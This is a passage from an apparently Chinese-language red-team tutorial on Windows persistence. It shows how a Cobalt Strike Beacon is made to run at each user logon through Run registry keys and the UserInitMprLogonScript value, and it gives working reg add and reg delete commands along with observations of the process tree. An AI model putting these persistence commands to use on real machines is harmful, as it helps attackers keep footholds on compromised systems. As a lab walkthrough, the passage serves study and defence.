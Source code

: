 注销、重启登录，上线中完整性级别 Beacon。

HKLM 和 HKCU 有什么区别？HKCU 是当前用户启动项，HKLM 就是当前机器的启动项，当前任何用户登录机器后都会自动启动 Beacon。但操作 HKLM 需要高完整性级别。尝试使用 root 登录，没有执行 beacon.exe。

清除注册表启动项。

```bash
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI /f
```

#### 2.3.2 Logon Script

使用普通用户权限，对用户坏境变量注册表 HKCU\\Environment 项，创建字符串 UserInitMprLogonScript，值为 bat 批处理脚本或可执行文件绝对路径。

```bash
PS C:\Users\123> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\Users\123\AppData\Roaming\beacon.exe"
PS C:\Users\123> reg query HKCU\Environment /v UserInitMprLogonScript

HKEY_CURRENT_USER\Environment
    UserInitMprLogonScript    REG_SZ    C:\Users\123\AppData\Roaming\beacon.exe
```

登陆时执行会自动执行上线，得到中完整性 Beacon。

刚开始 beacon.exe 还是由父进程 userinit.exe 启动。

![Logon Script 进程运行状态 -1.png](assets/1708583418-10d11ee0f836544dcfd8369af7bd73a8.png)

等待一会儿 userinit.exe 自动退出，beacon.exe 父进程消失，很是奇怪。

![Logon Script 进程运行状态 -2.png](assets/1708583418-4d51aa8a243b8f1a2c2b95948f35d960.png)
